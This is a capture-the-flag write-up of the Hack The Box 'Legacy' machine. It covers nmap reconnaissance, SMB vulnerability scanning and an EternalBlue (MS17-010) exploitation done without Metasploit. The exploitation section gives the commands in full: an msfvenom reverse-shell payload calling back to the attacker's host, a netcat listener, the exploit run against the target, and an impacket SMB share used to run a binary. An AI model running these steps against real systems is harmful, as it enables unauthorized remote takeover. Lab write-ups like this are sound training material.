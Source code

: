 # Legacy Writeup w/o Metasploit

![](https://miro.medium.com/max/587/1*lTQ336Aj68RUNHuYjdCE5A.png)

## Reconnaissance <a id="3ccd"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA nmap/initial 10.10.10.4
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that these ports are open:

* **Port 139:** running Microsoft Windows netbiois-ssn.
* **Port 445:** running Windows XP microsoft-ds.

![](https://miro.medium.com/max/1088/1*IUyh9A6LTMxxHZFDqLDJ-A.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA nmap/full 10.10.10.4
```

We get back the following result. No other ports are open.

![](https://miro.medium.com/max/1089/1*eVcfYf1UYWWYSuLHPm1lWw.png)

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA nmap/udp 10.10.10.4
```

We get back the following result. As can be seen, port 137 is open with netbios-ns running on it.

![](https://miro.medium.com/max/842/1*6Z85NaGdaLut4D_mPXlvow.png)

Our initial recon shows that the only point of entry is possibly through exploiting SMB.

## Enumeration <a id="3248"></a>

SMB has had its fair share of vulnerabilities in the past, so let’s first run nmap scripts to determine if it is vulnerable.

```text
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```

![](https://miro.medium.com/max/1032/1*QDuJY0ngDs-8FdgrNYBaaA.png)

The result shows us that it is vulnerable to CVE-2009–3103 and CVE-2017–0143 and likely vulnerable to CVE-2008–4250. The target machine is running SMBv1 so we’ll go with CVE-2017–0143 \(MS17–010\).

## Exploitation <a id="d6e0"></a>

The vulnerability we’ll be exploiting is called Eternal Blue. This vulnerability exploited Microsoft’s implementation of the Server Message Block \(SMB\) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

I came across this [article](https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/) that explains how to exploit the Eternal Blue vulnerability without using Metasploit. We’ll use it to run the exploit on the target machine.

First, download the exploit code from Github.

```text
git clone https://github.com/helviojunior/MS17-010.git
```

Use MSFvenom to create a reverse shell payload \(allowed on the OSCP as long as you’re not using meterpreter\).

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f exe > eternalblue.exe
```

Start up a listener on your attack machine.

```text
nc -nlvp 4444
```

Run the exploit.

```text
python send_and_execute.py 10.10.10.4 ~/Desktop/eternalblue.exe
```

![](https://miro.medium.com/max/922/1*Alda1JRD2rRuYdtVQebetA.png)

We have a reverse shell!

![](https://miro.medium.com/max/605/1*2gHkz5wfmvtdHyQK-y9gLw.png)

Next, we need to figure out what privileges we are running with.

![](https://miro.medium.com/max/642/1*TluyrrJPkLZVsMGFglzNUg.png)

**Whoami** doesn’t seem to work and we can’t echo the username. Therefore, we’ll have to get creative. Kali has a **whoami** executable that we can import to our target machine.

![](https://miro.medium.com/max/758/1*Ojfn655VnEMs4Fv1qEnbFQ.png)

Both netcat and powershell are not installed on the target machine, so we can’t use them to import the executable. Therefore, let’s try and setup an SMB server for the transfer.

Locate the SMB server script on kali.

![](https://miro.medium.com/max/609/1*qgbBM40SQzWr8k7xvCKHug.png)

Run the script to launch an SMB server on port 445 with the share name _temp_ and the path to the whoami executable.

```text
sudo /usr/share/doc/python-impacket/examples/smbserver.py temp /usr/share/windows-binaries/
```

![](https://miro.medium.com/max/955/1*xNqDs4gYn8apG5g6E2R1Sw.png)

Verify that script ran correctly by accessing the SMB share.

```text
smbclient //10.10.14.6/temp
```

List the content of the directory.

![](https://miro.medium.com/max/819/1*BLx78KtaOD7QV8G-_5mObQ.png)

In the target machine, you can now execute the whoami command using the temp share.

```text
\\10.10.14.6\temp\whoami.exe
```

![](https://miro.medium.com/max/541/1*usNmdlrHuOjrDx_BxFqmTg.png)

We have SYSTEM! We don’t need to escalate privileges for this box.

Grab the user flag.

![](https://miro.medium.com/max/645/1*GNs8Y_VHjws5cZz9ka8iKA.png)

Grab the root flag.

![](https://miro.medium.com/max/649/1*tW2RsJnMZIsDozzq6WIm1w.png)

## Lessons Learned <a id="a30a"></a>

This was a relatively simple machine to solve. It was running a vulnerable outdated version of SMB. So far, I’ve solved four machine and each one of them required me to exploit a vulnerable version of some software to either gain a foothold on the machine or to escalate privileges. So it goes without saying that you should always update your systems **especially** when updates are released for critical vulnerabilities! If the user had installed the MS17–010 security update, I would have had to find another way to exploit this machine.

